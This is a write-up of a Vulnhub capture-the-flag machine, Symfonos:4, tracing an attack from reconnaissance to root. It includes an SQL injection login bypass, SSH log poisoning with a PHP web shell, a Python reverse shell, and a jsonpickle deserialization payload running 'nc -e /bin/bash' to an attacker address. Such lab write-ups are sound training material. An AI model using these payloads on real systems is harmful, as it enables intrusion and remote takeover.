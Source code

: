 # Symfonos:4 - Writeup 

Symfonos:4 is an OSCP-like Intermediate real-life based machine from Vulnhub by Zayotic.<br />
This machine is designed to teach people the importance of trying harder.<br />
Link to the machine: [https://www.vulnhub.com/entry/symfonos-4,347/](https://www.vulnhub.com/entry/symfonos-4,347/)
<br />

## Information Gathering

Our first step is identifying our target IP Add.

```bash
┌─[a7@Parrot]─[~/Desktop/vulnHub/Symfonos:4]
└──╼ $fping -agq 10.10.10.0/24
10.10.10.1
10.10.10.2
10.10.10.10
```

<br />

## Ports and Services

Scanning our target for any open port, running services, and version detection.

![](Pics/nmap.png)
<br />
<br />

## Web Enumeration

Let's visit the website.

![](Pics/web.png)
<br />
<br />

We got a picture, inspecting the source code and nothing was found.<br />
Launch `gobuster` to brute-force hidden directories.

![](Pics/enum.png)
<br />
<br />

Let's visit `/atlantis.php`.

![](Pics/web2.png)
<br />
<br />

We got a **Login Form**, tried a few SQL Injection queries and it works.<br />
Enter in Username: `' or 1=1 -- -` and anything in Password.

![](Pics/web3.png)
<br />
<br />

We got a prompt to select a god. When selecting any god, we redirected to `/sea.php?file=hades`.

![](Pics/web4.png)
<br />
<br />

We may get a Local File Inclusion.<br />
Tried to include `/etc/passwd` but didn't work, tried to include different log files and we got `/var/log/auth` which indicates for ssh log poisoning.

![](Pics/web5.png)
<br />
<br />

Let's inject a php code in `/var/log/auth`, the code is:
```bash
ssh '<?php system($_GET['exp']); ?>'@10.10.10.10
```
> Ps: You could change the word "exp" to any word or letter, it's just a parameter to use.

<br />

![](Pics/ssh.png)
<br />
<br />

Now, add `&exp=ls -la` to the URL.

![](Pics/web6.png)
<br />
<br />

Launch a listener, run the reverse shell in the `exp` parameter.<br />
The shell is:

```bash
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.10.2",1234));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'
```
<br />

![](Pics/shell.png)
<br />
<br />

## Privilege Escalation

Searching around to escalate our privileges, we found a **Python code** in `/opt/code`.

![](Pics/shell2.png)
<br />
<br />

I notice that files under `/opt/code` indicate a web application, so looked at the processes and open ports and found that there's port 8080 opened locally.

![](Pics/shell3.png)
<br />
<br />

Port 8080 is allowed locally, so we need port forwarding to open it.<br />
Let's forward port 8080 to our machine: `socat TCP-LISTEN:2345,fork TCP:127.0.0.1:8080`

![](Pics/shell4.png)
<br />
<br />

Great! Now, in the web browser open `10.10.10.10:2345`.

![](Pics/web7.png)
<br />
<br />

Click on **Main page**.

![](Pics/web8.png)
<br />
<br />

OK, back to `/whoami` page, inspecting the source code but nothing useful. Open **Burp** to see what's going on.

![](Pics/burp.png)
<br />
<br />

We got a cookie encoded in base64, let's decode it in the **Decoder**.

![](Pics/burp2.png)
<br />
<br />

Remember, we saw this in `/opt/code`, this's **jsonpickle**.<br/>
Searching for an exploit and we found an article.

> Reference: [https://versprite.com/blog/application-security/into-the-jar-jsonpickle-exploitation/](https://versprite.com/blog/application-security/into-the-jar-jsonpickle-exploitation/)

Let's build our shell:
```bash
{"py/object": "__main__.Shell", "py/reduce": [{"py/type": "os.system"}, {"py/tuple": ["nc 10.10.10.2 3456 -e /bin/bash"]}, null, null, null]}
```
Encode it in the **Decoder**, in **Repeater** replace the old one with the new one and send it.

![](Pics/root.png)
<br />
<br />
